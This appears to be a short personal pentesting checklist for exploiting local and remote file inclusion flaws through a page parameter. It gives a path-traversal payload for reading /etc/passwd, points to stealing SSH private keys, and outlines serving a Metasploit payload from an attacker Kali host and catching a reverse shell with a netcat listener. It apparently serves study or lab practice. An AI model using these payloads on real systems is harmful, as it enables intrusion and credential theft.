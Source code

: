 # Initial inspection

1. Does the URL have a `?page=<whatever>` at the end?
   
   a. Yes then continue

   b. No then stop

# Attempt LFI 
 
1. cat a file every user should have access to?
   
   a. Something like this `<url>/?page=../../../../../../../../../../../etc/passwd`

   b. If this worked then LFI is good

   c. If this didnt work, attempt url encoding it

   d. If this didnt work, move on to RFI

3. Get users that have home directories

   a. Good starting point is look for `.ssh/id.rsa` file in attempt to get ssh access

# Attempt RFI 

1. set up enviroment

   a. Create nc listener on kali

   b. use website to call back to nc listener `<url>/?page=http://<kali ip>:<port>/`

   c. examine nc output

      i. if the request looks like `GET / HTTP/1.0` then the webpage is not looking for any file type inparticulat

      ii. if the tequest looks like `GET /<file name> HTTP/1.0` then it is looking for a file with that file name

   d. request like `GET / HTTP/1.0`:

      i. create payload with msfconsol and start a webserver in that location

      ii. creat a listener on the kali machine listening for the call back

      iii. call the file through the url `<url>/?page=http://<kali webserver>/<file>`

      iv. wait for the call back

   e. request like `GET /<file name> HTTP/1.0`:

      i. create payload with msfconsol and with the name and file type of the one that nc returned

      ii. start a webserver in that location of shell

      iii. creat a listener on the kali machine listening for the call back

      iv. call the file through the url `<url>/?page=http://<kali webserver>/<file>`

      v. wait for the call back

      

